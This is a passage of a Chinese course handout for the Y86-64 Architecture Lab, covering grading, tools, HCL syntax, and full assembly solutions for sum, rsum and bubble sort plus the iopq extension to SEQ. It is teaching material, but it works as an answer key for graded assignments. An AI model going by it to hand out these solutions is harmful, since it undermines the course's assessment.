| misc/sum.ys check failed: No such file | 没有在 handout 根目录运行 grader | cd 到能看到 bin/ 和 misc/ 的那一层 |
| sum 的结果为 0，或局部变量互相覆盖 | 把 -0x10 改写成了 -10（十进制的 10） | 偏移用十进制，并且是 8 的倍数（第 2.4 节） |
| invalid memory address（bubble） | 栈从 .pos 0x200 向下长，压到了代码上 | 看 .yo 中最大的代码地址，把栈底改到 .pos 0x400 |
| registers mismatch，rsp 少弹了一次 | ret 被气泡抹掉，错误路径上的 halt 提前结束了程序 | 检查 f_stall、d_bubble 中对 RET 的处理 |
| 很多寄存器不对，或 CPU 超时 | 误预测的发现和重定向时刻混在一起，或者重定向永不触发 | 发现在 E、重定向在 M；!e_cnd 改成 !M.cnd（第 3.8 节） |
| ret-hazard.ys 中 rsp 为 80 而不是 88 | 停顿和气泡同时作用于 D，ret 被抹掉 | (ret_harzard || branch_mispred) && !d_stall |
表中 yas 崩溃的那一行，最初的排查走了不少弯路：注释里的中文、标号前的缩进、文件末尾的换行都被怀疑过，最后是把文件缩减成一行一行的最小用例，逐一比较不同的写法，才发现只有负的十六进制偏移会崩溃。工具出现异常时，不要靠猜，把问题缩小到最小的用例再判断，这个方法在后面各个 Lab 中都用得上。
0.5 提交前检查#
提交之前，先在根目录不带参数运行一遍 ./bin/grader，三个 Part 的本地检查都要通过。然后检查每个提交文件的开头是否有实验要求的注释（ncopy.ys 和 ncopy.hcl 还要写修改说明），并用 grep -c IOPQ architectures/seq_full.hcl 确认 iopq 确实在提交的那份文件里——在容器和本机之间来回同步时，最容易交上一份旧文件。最后 make handin 打包，用 tar tf archlab-handin.tar 数一遍，确认 sum.ys、rsum.ys、bubble.ys、seq_full.hcl、七个 pipe_s*.hcl、ncopy.ys、ncopy.hcl 共 13 个文件都在，再上传 Autolab。Part B 的逐周期比对在上传之后才进行，提交后留意 Autolab 的结果。
第一部分 规则、工具与评分#
1.1 三个 Part 与评分#
Arch Lab 满分 100 分，分三部分，逐步递进。Part A（15 分）用 Y86-64 汇编写三个程序：链表的迭代求和 sum.ys、递归求和 rsum.ys、冒泡排序 bubble.ys，每个 5 分，行为必须与 examples.c 中的 C 函数一致，并遵守 x86-64 的调用约定（参数放在 %rdi、%rsi……，返回值放在 %rax，用到的被调用者保存寄存器要保存和恢复）。sum 和 rsum 要在 %rax 中返回 0xfed；bubble 要把 6 个 8 字节整数原地排成升序，并且不能破坏其他内存。
Part B（25 分）在 architectures/ 目录中完成。第一项是给 seq_full.hcl 加上 iopq 指令（4 分）。第二项是补全 7 个流水线架构 pipe_s3a、s3b、s3c、s3d、s4a、s4b、s4c 中的占位符（每个 3 分）。占位符有三种：BOOL_PLACEHOLDER、U8_PLACEHOLDER、U64_PLACEHOLDER，前缀表示这个表达式的类型。每个架构除了要通过指令集级别的检查（运行结果与 yis 一致），还要在 Autolab 上与出题人的标准架构逐周期比对，所以“结果对”还不够，每个周期各级流水线寄存器的内容都要和标准答案一样。pipe_s2 是完整给出的示例，不计分。
Part C（60 分）同时修改 misc/ncopy.ys 和 architectures/ncopy.hcl，让 ncopy 尽可能快。评分看两个量：cpe 是长度 1 到 64 的数组上“周期数 ÷ 元素个数”的平均值；ac 是处理器关键路径的长度（第 1.4 节）。令 c = cpe + 2 × ac，得分为：c ≤ 15 得 60 分；15 < c ≤ 16 得 57 分；16 < c ≤ 19 得 19 × (19 − c) 分；c > 19 得 0 分。ncopy.ys 或 ncopy.hcl 只要有一处出错（结果不对，或者 ncopy.hcl 不能正确运行一般的 Y86-64 程序），Part C 就是 0 分。汇编后的 ncopy 代码加上栈不能超过约 4 KB。
⚠ 实验说明与 grader 不一致的地方
第一，实验说明要求 bubble.ys 的数组标号写成 Array，但 grader 按小写的 array 查找。实测用 Array 时 grader 报“array label not found”，改成 array 才通过。第二，Part A 中 rsum.ys 一节说“用测试 list.ys 时的同一个链表”，这里的 list.ys 指的是 sum.ys。第三，本学期的 yas 不接受负的十六进制数：mrmovq -0x8(%rbp), %rax 和 irmovq $-0x10, %rax 都会让汇编器直接崩溃（报 panicked ... Option::unwrap()，不给行号），负的十进制数（-8）和正的十六进制数（0x8）都正常。负数一律写成十进制即可。
1.2 工具链#
本学期的工具都是预编译好的 x86-64 Linux 程序，放在 bin/ 下，不需要编译。yas 是汇编器，把 .ys 汇编成 .yo（带地址和机器码的清单）；yis 是指令集模拟器，按 Y86-64 的语义逐条执行 .yo，输出最终的寄存器和被修改的内存，它的结果就是标准答案；ysim 是流水线模拟器，读一个 .hcl 架构，在这个架构上运行 .ys 程序；grader 是评分程序，./bin/grader part-a、part-b、part-c 分别评三部分，./bin/grader arch <名字> -i 用一组通用测试程序检查任意架构（-i 表示测试中包含 iopq）。ydb 和 y86-lsp 分别是调试器后端和编辑器的语言服务器。
最常用的几条命令如下：
./bin/yas misc/sum.ys -o sum.yo # 汇编，得到带地址的清单
./bin/yis sum.yo # 指令集模拟：标准答案
./bin/ysim misc/sum.ys -A pipe_std # 在某个架构上运行
./bin/ysim --check architectures/pipe_s3a.hcl # 只做类型检查
./bin/ysim -A pipe_std -I # 打印关键路径层次，生成依赖图 HTML
./bin/grader part-c # 评 Part C：各长度的周期数、cpe、ac、分数ysim 本身不直接打印周期数。本讲义统计一个程序在某个架构上的周期数时，用的是 --max-cpu-cycle 选项：周期上限不够时程序会报错退出，够了就正常结束，二分查找“恰好能正常结束的最小上限”，就是这个程序的周期数。在 seq_std 上这样测出的数等于 yis 报告的指令条数（SEQ 每周期执行一条指令），可以作为对照。
1.3 本 Lab 的 HCL#
本 Lab 的 HCL 是一种独立的文本格式，语法与教材的 HCL 相近，细节有所不同。一个 .hcl 文件分三段：开头的属性（hardware seq 或 hardware pipe、作为 PC 的信号、终止条件、阶段别名），流水线寄存器的声明，以及组合逻辑。流水线寄存器写成 stage d { icode: u8 = NOP, valC: u64 = 0, ... }，等号后面是复位值；读取时用大写别名加点，例如 D.icode 表示本周期开始时 D 寄存器里的 icode。
u64 aluA = [
E.icode in { CMOVX, OPQ } : E.valA;
E.icode in { IRMOVQ, RMMOVQ, MRMOVQ } : E.valC;
E.icode in { CALL, PUSHQ } : NEG_8;
E.icode in { RET, POPQ } : 8;
];
@set_input(alu, { a: aluA, b: aluB, fun: alufun });
@set_stage(m, { valE: e_valE, dstE: e_dstE, ... });信号定义有两种形式：单个表达式，或者用方括号括起来的情形列表（多路选择器），取第一个条件为真的值，都不满足时取类型的默认值。表达式里只有比较（==、!=、in）和逻辑运算（&&、||、!），没有算术，加减都由硬件部件完成。部件（ALU、指令存储器等）是固定的，用 @set_input 给它的输入接线，用 unit.field 读它的输出；用 @set_stage 给流水线寄存器的下一周期赋值，同时也可以设置 stall（下一周期保持原值）和 bubble（下一周期复位成默认值，即插入气泡）。@set_input 和 @set_stage 冒号右边只能写一个已定义的信号名，不能直接写表达式或 M.ifun 这样的字段。
表 5 教材 HCL 与本 Lab HCL 的对照（据实验说明表 1 与 hcl-lang.md）
| 教材 | 本 Lab | 说明 |
|---|---|---|
D_icode、E_icode、F_predPC | D.icode、E.icode、F.pred_pc | 流水线寄存器字段用点号 |
INOP、IHALT、IRRMOVQ | NOP、HALT、CMOVX | 指令码去掉前缀 I；rrmovq 与 cmovXX 共用 CMOVX |
IIRMOVQ、IJXX | IRMOVQ、JX | 注意 IRMOVQ 本身就是 irmovq，不是“I + RMOVQ” |
SADR、SINS、SBUB | Adr、Ins、Bub | 状态码 |
word f_icode = [...] | u8 f_icode = [...] | 类型分 bool、u8、u64 等 |
| 寄存器文件 | hardware seq：reg_read 与 reg_write；hardware pipe：reg_file | 流水线版本在一个周期内先写后读 |
信号的命名有一个约定，第三部分处处用得到：大写字母加点（E.dstM）是流水线寄存器的字段，表示本周期开始时锁存在里面的值；小写前缀的信号（e_dstM、m_valM）是文件中定义的中间信号，前缀表示它属于哪一级。写转发和冒险条件时，前缀必须配套：e_valE 要配 e_dstE，m_valM 要配 m_dstM，否则就是把一条指令的值配给了另一条指令的目的寄存器。
1.4 关键路径长度 ac#
处理器的时钟周期取决于两个寄存器之间最长的那条组合逻辑路径。本 Lab 把它简化成“一条路径上最多串联了几个部件”：ac = 1 + 串联部件的最大个数，只数部件（imem、ialign、pc_inc、reg_read/reg_file/reg_write、alu、reg_cc、cond、dmem），不数信号。./bin/ysim -A <架构> -I 会按层列出每个部件和信号所在的层次，最大层号就是 ac。
以 seq_std 为例，-I 的输出是：第 2 层 imem，第 3 层 ialign、pc_inc，第 4 层 reg_read，第 5 层 alu，第 6 层 reg_cc、dmem，第 7 层 cond，第 8 层 reg_write，所以 ac = 8。对应的路径是取指 → 拆字节 → 读寄存器 → ALU → 条件码 → 条件判断 → 写寄存器：cmovXX 要等条件判断出结果，才知道写不写目的寄存器。而在 pipe_std 中，第 2 层是 alu、imem、dmem、reg_file，第 3 层是 ialign、pc_inc、reg_cc，第 4 层是 cond，最长的路径是 alu → reg_cc → cond，ac = 4。
流水线能缩短关键路径，原因就在这里：流水线寄存器把一条长路径切成几段，每一段都从某个寄存器出发，到另一个寄存器结束。但切开路径也有代价：原来在同一个周期里就能得到的结果（例如跳转的方向、ret 的返回地址），现在要过一个或几个周期才能拿到，于是产生了冒险，需要暂停、气泡或预测来处理。Part B 的八个架构，就是在“路径更短”和“冒险更多”之间一步步权衡的过程。
常见问题：ac 和实际的周期数有什么关系？
两者是相互独立的两个量。周期数（以及由它算出的 cpe）表示程序执行了多少个时钟周期；ac 表示每个时钟周期至少要多长。真实处理器的执行时间是两者的乘积，Part C 用 cpe + 2 × ac 的加权和来近似这种权衡。所以，把五级流水线换回 SEQ 虽然消除了所有冒险、周期数最少，但 ac 从 4 变成 8，c 反而大得多（第 4.2 节）。
第二部分 Part A：Y86-64 汇编#
2.1 Y86-64 程序的骨架#
Y86-64 没有操作系统，也没有链接器和加载器。程序从地址 0 开始执行，栈放在哪里、数据放在哪里、函数返回之后怎样结束，都要在源程序里写出来。三个程序都用同一个骨架：
.pos 0
irmovq stack, %rsp # 设置栈指针
call main
halt
.align 8
array: .quad ... # 数据
main: ... # 准备参数，调用被测函数
ret
.pos 0x200
stack: # 栈从 0x200 向低地址增长.pos N 把后面内容的汇编地址设为 N；.align 8 把地址对齐到 8 的倍数，.quad 放一个 8 字节的数。栈指针初始化为 stack 的地址，栈向低地址增长，所以 stack 必须放在程序和数据的后面，并且与它们之间留出足够的空间。参数由调用者在 call 之前放进 %rdi、%rsi，被调用的函数只从寄存器里读，不要把 irmovq ele1, %rdi 写进函数内部。
用 yas 汇编得到的 .yo 清单，可以看出每条指令的地址和编码。sum.ys 的开头几行是：
0x0000: 30f40002000000000000 | irmovq stack, %rsp
0x000a: 804800000000000000 | call main
0x0013: 00 | halt
0x0018: 0d00000000000000 | ele1: .quad 0x00d
0x0020: 2800000000000000 | .quad ele2irmovq 的编码是 30 F rB 加 8 字节立即数：30、f4（rA 为 F 表示“无”，rB 为 4 即 %rsp），后面的 0002000000000000 是小端序的 0x200。call 是 80 加 8 字节目标地址 0x48。halt 只有 1 字节，下一项 .align 8 把地址从 0x14 推到 0x18。各类指令的长度是：halt、nop、ret 为 1 字节；rrmovq、cmovXX、OPq、pushq、popq 为 2 字节；jXX、call 为 9 字节；irmovq、rmmovq、mrmovq 以及本 Lab 新增的 iopq 为 10 字节。估计程序有多长、栈会不会压到代码上，用的就是这张表。
2.2 sum.ys：迭代求和#
C 函数是：long sum_list(list_ptr ls) { long val = 0; while (ls) { val += ls->val; ls = ls->next; } return val; }。节点结构是 8 字节的 val 加 8 字节的 next 指针，所以 val 在偏移 0，next 在偏移 8。翻译时只用寄存器：%rdi 就是 ls，%rax 累加。
# long sum_list(list_ptr ls) ls in %rdi, result in %rax
sum_list:
xorq %rax, %rax # val = 0
jmp test
loop: mrmovq (%rdi), %r8 # ls->val
addq %r8, %rax # val += ls->val
mrmovq 8(%rdi), %rdi # ls = ls->next
test: andq %rdi, %rdi # while (ls)
jne loop
ret循环采用“先跳到条件判断”的形式（第 5 讲）：第一次直接跳到 test 检查 ls 是否为空。Y86-64 没有 test 指令，判断一个寄存器是否为 0 的惯用写法是 andq %rdi, %rdi，它不改变 %rdi，只设置条件码。yis 运行结果：执行 26 条指令后停机，%rax = 0xfed（0x00d + 0x0e0 + 0xf00）。
2.3 rsum.ys：递归求和#
递归版本的要点是“递归调用之后还要用到的值，必须放在被调用者保存的寄存器里，或者存到栈上”。这里 val 要在递归返回之后加到结果上，所以把它放进 %rbx；%rbx 是被调用者保存寄存器，函数用到它就要在开头 pushq、结尾 popq。
# long rsum_list(list_ptr ls) ls in %rdi, result in %rax
rsum_list:
xorq %rax, %rax # return 0 if ls == NULL
andq %rdi, %rdi
je done
pushq %rbx # %rbx is callee-saved
mrmovq (%rdi), %rbx # val = ls->val (kept across the call)
mrmovq 8(%rdi), %rdi # argument: ls->next
call rsum_list # rest = rsum_list(ls->next)
addq %rbx, %rax # return val + rest
popq %rbx
done: ret注意 xorq 放在最前面：空指针时直接返回 0；非空时 %rax 会被递归调用的返回值覆盖，提前清零也不影响结果。每一层递归在栈上占 16 字节：8 字节返回地址加 8 字节保存的 %rbx。三个节点、四层调用（最后一层遇到空指针），栈最深到 0x1c0 附近，离代码很远。yis 的结果同样是 %rax = 0xfed，并且 %rbx 恢复为 0。
2.4 bubble.ys：原地冒泡排序#
C 函数用两个指针 i 和 last 控制循环：外层 last 从 data + count − 1 递减到 data，内层 i 从 data 递增到 last，相邻两个元素逆序就交换。
# void bubble_sort(long *data, long count) data in %rdi, count in %rsi
bubble_sort:
irmovq $8, %r10 # constant 8 (sizeof(long))
rrmovq %rsi, %rax
addq %rax, %rax
addq %rax, %rax
addq %rax, %rax # 8 * count
addq %rdi, %rax
subq %r10, %rax # last = data + count - 1
outer: rrmovq %rax, %r9
subq %rdi, %r9 # last - data
jle done # for (; last > data; last--)
rrmovq %rdi, %rcx # i = data
inner: rrmovq %rax, %r9
subq %rcx, %r9 # last - i
jle next # for (; i < last; i++)
mrmovq (%rcx), %r8 # *i
mrmovq 8(%rcx), %r11 # *(i+1)
rrmovq %r11, %r9
subq %r8, %r9 # *(i+1) - *i
jge noswap # if (*(i+1) < *i) swap
rmmovq %r8, 8(%rcx)
rmmovq %r11, (%rcx)
noswap: addq %r10, %rcx # i++
jmp inner
next: subq %r10, %rax # last--
jmp outer
done: ret有三点值得注意。第一，Y86-64 没有乘法和移位，count * 8 用三次 addq %rax, %rax 实现（每次乘 2）。第二，指针加 1 在汇编里是加 8，last-- 也是减 8。第三，C 中的比较 last > data、i < last 都翻译成“先减、再看符号”：subq 只能把结果写回第二个操作数，所以先用 rrmovq 复制一份再减，不破坏原值。比较 *(i+1) < *i 同理。这里用的是有符号比较，对本题的小地址没有问题；严格地说，指针比较是无符号的，地址超过 263 时应改用 jb/ja 之类，但 Y86-64 没有无符号的条件跳转，这在 Lab 中不必考虑。
yis 运行结果：执行 233 条指令后停机，0x18～0x47 的 6 个字从 0xbca、0xcba、0xacb、0xcab、0xabc、0xbac 变为 0xabc、0xacb、0xbac、0xbca、0xcab、0xcba，其余被改写的内存只有栈上的两个返回地址（0x1f0、0x1f8）。
2.5 另一种写法：从 x86-64 逐行翻译#
上面三个程序都是直接对着 C 代码写的。还有一种更机械的办法：先让 gcc 把 examples.c 编译成 x86-64，再按固定的规则把每一条 x86-64 指令换成 Y86-64 指令。Y86-64 本来就是 x86-64 的一个子集，大部分指令都有直接的对应，翻译时不需要理解程序在做什么，只要每一条都换对，结果就一定与 C 函数一致。代价是代码冗长。本节先给出翻译规则，再把一个冗长的翻译结果一步步化简成第 2.2 节的形式。
得到 x86-64 代码#
gcc -O0 -c examples.c -o ex0.o && objdump -d ex0.o > ex0.d # 不优化
gcc -Og -c examples.c -o ex.o && objdump -d ex.o > ex.d # 适合调试的优化两种优化级别得到的代码风格完全不同。-O0 把每个局部变量都放在栈上，每条 C 语句都先从栈里读出变量、算完再写回去；-Og 把局部变量放在寄存器里。sum_list 在两种级别下的反汇编如下（省去了地址和机器码）：
# gcc -O0 # gcc -Og
endbr64 endbr64
push %rbp mov $0x0,%eax
mov %rsp,%rbp jmp .L2
mov %rdi,-0x18(%rbp) # ls .L1: add (%rdi),%rax
movq $0x0,-0x8(%rbp) # val mov 0x8(%rdi),%rdi
jmp .L2 .L2: test %rdi,%rdi
.L1: mov -0x18(%rbp),%rax jne .L1
mov (%rax),%rax ret
add %rax,-0x8(%rbp)
mov -0x18(%rbp),%rax
mov 0x8(%rax),%rax
mov %rax,-0x18(%rbp)
.L2: cmpq $0x0,-0x18(%rbp)
jne .L1
mov -0x8(%rbp),%rax
pop %rbp
ret图 1（a）是 -O0 版本的栈帧：ls 在 -0x18(%rbp)，val 在 -0x8(%rbp)。sum_list 不调用别的函数，gcc 没有移动 %rsp，直接使用 %rsp 下方的空间（x86-64 的“红区”）。在 Y86-64 中这样做也没有问题，因为没有别的东西会在这期间改写栈。
图 1 -O0 版本 sum_list 的栈帧（a），以及负偏移写错时的后果（b）
翻译规则#
表 6 x86-64 指令到 Y86-64 的翻译规则（%t 表示一个临时寄存器）
| x86-64 | Y86-64 | 说明 |
|---|---|---|
mov %rA,%rB | rrmovq %rA,%rB | |
mov $V,%rB、movl $V,%eB | irmovq $V,%rB | movl 写 32 位寄存器时高 32 位清零，与写整个寄存器相同 |
mov D(%rB),%rA | mrmovq D(%rB),%rA | 只有“基址＋偏移”一种寻址方式 |
mov %rA,D(%rB) | rmmovq %rA,D(%rB) | |
movq $V,D(%rB) | irmovq $V,%t；rmmovq %t,D(%rB) | 立即数不能直接写内存 |
add %rA,%rB（sub、and、xor 同） | addq %rA,%rB | 只有这四种运算 |
add $V,%rB | irmovq $V,%t；addq %t,%rB | 有 iopq 之后可写成 iaddq $V,%rB |
add D(%rB),%rA | mrmovq D(%rB),%t；addq %t,%rA | 运算的操作数只能是寄存器 |
add %rA,D(%rB) | mrmovq D(%rB),%t；addq %rA,%t；rmmovq %t,D(%rB) | 读、算、写回三步 |
cmp %rA,%rB；jX | rrmovq %rB,%t；subq %rA,%t；jX | cmp 算的是 rB − rA，先复制一份再减，不破坏 rB |
cmpq $0,D(%rB) | mrmovq D(%rB),%t；andq %t,%t | 与 0 比较就是看它本身的符号 |
test %rA,%rA | andq %rA,%rA | |
lea D(%rA,%rB,8),%rC | rrmovq %rB,%rC；三次 addq %rC,%rC；addq %rA,%rC；再加 D | 没有乘法和移位，乘 8 用三次自加 |
ja、jae、jb、jbe | jg、jge、jl、jle | Y86-64 只有有符号的条件跳转，见下文 |
push、pop、call、ret | pushq、popq、call、ret | call 的目标写标号 |
sub $N,%rsp | irmovq $N,%t；subq %t,%rsp | 非叶函数的 -O0 代码会这样分配栈帧 |
leave | rrmovq %rbp,%rsp；popq %rbp | |
endbr64、nop | 删去 | endbr64 是控制流保护的标记，与功能无关 |
使用这张表时有几点要注意。第一，临时寄存器要选一个此时没有用到、也不需要保存的寄存器，%r8～%r11 通常是安全的；不要用 %rbx、%rbp、%r12～%r14，它们是被调用者保存的。第二，表中的多条指令序列会改变条件码（addq、subq、andq 都会设置条件码），而 x86-64 的 mov 不改变条件码。如果翻译出来的序列夹在“设置条件码的指令”和“使用它的条件跳转”之间，就会把条件码冲掉。-O0 和 -Og 的代码中，cmp、test 几乎总是紧挨着条件跳转，一般不会出问题，但要检查一遍。第三，偏移量照抄时，负的十六进制要换算成十进制（第 1.1 节），-0x18 是 −24，-0x10 是 −16。如图 1（b），若把 -0x10 随手写成 -10，读写的 8 个字节就会从 −10 开始，其中 6 个字节落在 val 的槽里，两个变量互相覆盖。第四，无符号跳转换成有符号跳转，只在比较的两个数都小于 263 时等价。Lab 中比较的是小地址，没有问题。
化简：从 -O0 的直译到简洁的写法#
把 -O0 版本的 sum_list 逐行套用规则，得到下面的程序。yis 运行的结果是 %rax = 0xfed，正确，但整个程序执行了 51 条指令：
sum_list:
pushq %rbp
rrmovq %rsp, %rbp
rmmovq %rdi, -24(%rbp) # mov %rdi,-0x18(%rbp)
irmovq $0, %rcx # movq $0x0,-0x8(%rbp)
rmmovq %rcx, -8(%rbp)
jmp L2
L1: mrmovq -24(%rbp), %rax # mov -0x18(%rbp),%rax
mrmovq (%rax), %rax # mov (%rax),%rax
mrmovq -8(%rbp), %rcx # add %rax,-0x8(%rbp)
addq %rax, %rcx
rmmovq %rcx, -8(%rbp)
mrmovq -24(%rbp), %rax # mov -0x18(%rbp),%rax
mrmovq 8(%rax), %rax # mov 0x8(%rax),%rax
rmmovq %rax, -24(%rbp) # mov %rax,-0x18(%rbp)
L2: mrmovq -24(%rbp), %rcx # cmpq $0x0,-0x18(%rbp)
andq %rcx, %rcx
jne L1
mrmovq -8(%rbp), %rax # mov -0x8(%rbp),%rax
popq %rbp
ret循环体有 11 条指令，其中 6 条在读写栈上的 ls 和 val。这些栈槽只有 sum_list 自己在用，没有别的代码通过地址访问它们，所以可以给每个栈槽固定一个寄存器，用寄存器代替它：ls 已经在 %rdi 中，就一直用 %rdi；val 是返回值，就一直放在 %rax 中。于是，“从栈槽读到寄存器”的 mrmovq 和“从寄存器写回栈槽”的 rmmovq 全部消失，add %rax,-0x8(%rbp) 这样读、算、写回的三步也变成了一条 addq：
sum_list:
pushq %rbp
rrmovq %rsp, %rbp
irmovq $0, %rax # val = 0
jmp L2
L1: mrmovq (%rdi), %rcx # ls->val
addq %rcx, %rax # val += ls->val
mrmovq 8(%rdi), %rdi # ls = ls->next
L2: andq %rdi, %rdi # while (ls)
jne L1
popq %rbp
ret执行的指令数降到 29 条。这时函数已经不再访问栈，%rbp 也不再用来定位栈槽，开头的 pushq、rrmovq 和结尾的 popq 都没有作用了。%rbp 是被调用者保存的寄存器，但我们既然不改它，也就不需要保存。删去这三条，再把 irmovq $0 换成 xorq %rax, %rax（两者效果相同，后者短 8 个字节），就得到第 2.2 节的程序（只是临时寄存器用了 %rcx 而不是 %r8），执行 26 条指令。
这两步化简正是编译器优化在做的事：-Og 的输出与最后的结果逐条对应，add (%rdi),%rax 按规则拆成 mrmovq 加 addq，test 换成 andq，就是第 2.2 节的循环。所以更省事的做法是直接翻译 -Og 的输出，规则不变，结果从一开始就是简洁的。rsum_list 也一样：-Og 的输出用 %rbx 保存 ls->val，用到 %rbx 之前 push、返回之前 pop，逐行翻译后与第 2.3 节的程序基本相同，只是空链表返回 0 的那两条放在了函数末尾。
bubble_sort 的 -Og 翻译#
冒泡排序的 -Og 输出用到了 lea 和无符号跳转，是规则表中几种特殊情形的例子：
# gcc -Og # Y86-64
lea -0x8(%rdi,%rsi,8),%rsi addq %rsi, %rsi # 8 * count
addq %rsi, %rsi
addq %rsi, %rsi
addq %rdi, %rsi # + data
irmovq $8, %r8 # 8, kept in %r8
subq %r8, %rsi # - 8
jmp .L66 jmp L66
.L44: add $0x8,%rax L44: addq %r8, %rax # i++
.L48: cmp %rsi,%rax L48: rrmovq %rax, %r9
subq %rsi, %r9 # i - last
jae .L62 jge L62 # jae -> jge
mov 0x8(%rax),%rdx mrmovq 8(%rax), %rdx
mov (%rax),%rcx mrmovq (%rax), %rcx
cmp %rcx,%rdx rrmovq %rdx, %r9
subq %rcx, %r9 # *(i+1) - *i
jge .L44 jge L44
mov %rcx,0x8(%rax) rmmovq %rcx, 8(%rax) # swap
mov %rdx,(%rax) rmmovq %rdx, (%rax)
jmp .L44 jmp L44
.L62: sub $0x8,%rsi L62: subq %r8, %rsi # last--
.L66: cmp %rsi,%rdi L66: rrmovq %rdi, %r9
subq %rsi, %r9 # data - last
jae .L70 jge L70
mov %rdi,%rax rrmovq %rdi, %rax # i = data
jmp .L48 jmp L48
.L70: ret L70: ret唯一超出“逐条套规则”的地方是常数 8：规则表中 add $0x8,%rax 要先 irmovq $8 到临时寄存器，放在循环里每次都要多执行一条。把它提到循环外，存在一个循环中不会被改写的寄存器 %r8 里，循环内只用 addq %r8, ...。这样翻译出来的 bubble.ys 执行 228 条指令，比第 2.4 节手写的版本（233 条）还少；而照 -O0 逐行翻译、所有局部变量都留在栈上的版本要执行 426 条。三者的排序结果完全相同。
-O0 的直译还有一个副作用：代码很长。bubble_sort 的 -O0 直译有近 400 字节，加上数据，会超过第 2.1 节骨架中 .pos 0x200 留给栈的位置，栈向下增长时会改写代码，运行时报“invalid memory address”。这时要么把栈底改到 .pos 0x400，要么按本节的方法化简。
2.6 Part A 的常见错误#
表 7 Part A 的常见错误与检查方法
| 错误 | 说明与检查方法 |
|---|---|
立即数漏写 $，标号后漏冒号 | irmovq $0, %rax，loop:；yas 会报错，按报错的行号改 |
| 返回写成 retq | Y86-64 只有 ret |
| call、jXX 的目标写成数字 | 本学期的 yas 只接受标号，call 0x100 会报错 |
| 参数在函数内部准备 | 参数应由调用者在 call 之前放好；函数只读 %rdi、%rsi |
| 节点偏移写成负数或写错 | val 在 0，next 在 8；照 .d 文件抄时不要把负号带进来 |
| 负数写成十六进制 | yas 遇到 -0x10 会崩溃；改写成十进制时 -0x10 是 -16 而不是 -10。栈上的偏移几乎总是 8 的倍数，见到 −10 就要警觉 |
| 栈压到代码上 | 栈从 .pos 指定的地址向下长；看 .yo 中最大的代码地址，与栈底比较，留足空间 |
| 用 je 判断循环结束 | 外层 last > data 写成“相等才退出”，count 为 0 时 last 在 data 之前，循环不会结束；应当用 jle |
| 用到 %rbx、%rbp 等不保存 | 被调用者保存寄存器用到就要 pushq/popq；grader 会检查寄存器是否被破坏 |
| 数组标号写成 Array | grader 查找的是小写的 array（第 1.1 节） |
第三部分 Part B：从 SEQ 到五级流水线#
3.1 给 SEQ 加上 iopq#
iopq V, rB 计算 rB op V，结果写回 rB，并设置条件码。汇编器提供 iaddq、isubq、iandq、ixorq 四个助记符，例如 iaddq $1, %rax 编码为 c0f00100000000000000，isubq $-8, %rsi 编码为 c1f6f8ffffffffffffff。第一个字节是 C 加功能码（功能码与 OPq 相同：0 加、1 减、2 与、3 异或），第二个字节是 F 加 rB（rA 位置为 F，表示不用），后面是 8 字节立即数，共 10 字节。
它像哪两条指令#
从编码就能看出，iopq 是两条已有指令的组合：格式与 irmovq 相同（rA 为 F，后面跟 8 字节常数），运算与 OPq 相同（ifun 选择运算，设置条件码，结果写回 rB）。所以不必从头设计，把这两条指令在 SEQ 中的动作（第 10 讲，教材图 4.18）并排写出来，每个阶段看 iopq 应当像哪一条：
表 8 OPq、irmovq 与 iopq 在 SEQ 各阶段的动作
| 阶段 | OPq rA, rB | irmovq V, rB | iopq V, rB |
|---|---|---|---|
| 取指 | icode:ifun ← M1[PC]；rA:rB ← M1[PC+1]；valP ← PC+2 | icode:ifun ← M1[PC]；rA:rB ← M1[PC+1]；valC ← M8[PC+2]；valP ← PC+10 | 同 irmovq：要读寄存器字节和 8 字节常数 |
| 译码 | valA ← R[rA]；valB ← R[rB] | （无） | valB ← R[rB]：只取 OPq 的一半，rA 是 F，不读 |
| 执行 | valE ← valB OP valA；设置 CC | valE ← 0 + valC | valE ← valB OP valC；设置 CC：OPq 的运算，把 valA 换成 valC |
| 访存 | （无） | （无） | （无） |
| 写回 | R[rB] ← valE | R[rB] ← valE | R[rB] ← valE：两者相同 |
| 更新 PC | PC ← valP | PC ← valP | PC ← valP |
逐个信号去改#
有了这张表，改 HCL 就是一件机械的事：在 seq_full.hcl 中找出所有出现 OPQ 或 IRMOVQ 的地方，对每一处问“iopq 在这里该像谁”。原文件中相关的几行是：
bool instr_valid = icode in { NOP, HALT, CMOVX, IRMOVQ, RMMOVQ, MRMOVQ,
OPQ, JX, CALL, RET, PUSHQ, POPQ };
bool need_regids =
icode in { CMOVX, OPQ, PUSHQ, POPQ, IRMOVQ, RMMOVQ, MRMOVQ };
bool need_valC = icode in { IRMOVQ, RMMOVQ, MRMOVQ, JX, CALL };
u8 srcA = [ icode in { CMOVX, RMMOVQ, OPQ, PUSHQ } : ialign.rA; ... ];
u8 srcB = [ icode in { OPQ, RMMOVQ, MRMOVQ } : ialign.rB; ... ];
u8 dstE = [ icode in { IRMOVQ, OPQ } : ialign.rB; ... ];
u64 aluA = [ icode in { CMOVX, OPQ } : reg_read.valA;
icode in { IRMOVQ, RMMOVQ, MRMOVQ } : ialign.valC; ... ];
u64 aluB = [ icode in { RMMOVQ, MRMOVQ, OPQ, CALL,
PUSHQ, RET, POPQ } : reg_read.valB;
icode in { CMOVX, IRMOVQ } : 0; ];
u8 alufun = [ icode == OPQ : ifun; 1 : ADD; ];
bool set_cc = icode in { OPQ };表 9 每个信号中 iopq 应当像哪一条指令
| 信号 | OPq | irmovq | iopq 应当 | 改法 |
|---|---|---|---|---|
| instr_valid | 在 | 在 | 是合法指令 | 集合中加入 IOPQ |
| need_regids | 在 | 在 | 两者都要寄存器字节 | 加入 IOPQ |
| need_valC | 不在 | 在 | 像 irmovq，要常数 | 加入 IOPQ |
| srcA | 读 rA | 不读 | 像 irmovq，rA 是 F | 不改，保持 RNONE |
| srcB | 读 rB | 不读 | 像 OPq，要读 rB | 加入 IOPQ |
| dstE | 写 rB | 写 rB | 两者相同 | 加入 IOPQ |
| aluA | valA | valC | 常数从 A 口进入 | 加入 valC 那一行 |
| aluB | valB | 0 | 像 OPq，rB 的值从 B 口进入 | 加入 valB 那一行 |
| alufun | ifun | ADD | 像 OPq，按 ifun 运算 | 改成 icode in { OPQ, IOPQ } : ifun |
| set_cc | 设置 | 不设置 | 像 OPq，设置条件码 | 加入 IOPQ |
访存、写回之后的 dstM、mem_addr、new_pc 等都不用动：iopq 不访存，更新 PC 用的 valP 由 pc_inc 根据 need_regids、need_valC 自动算出 PC+10。
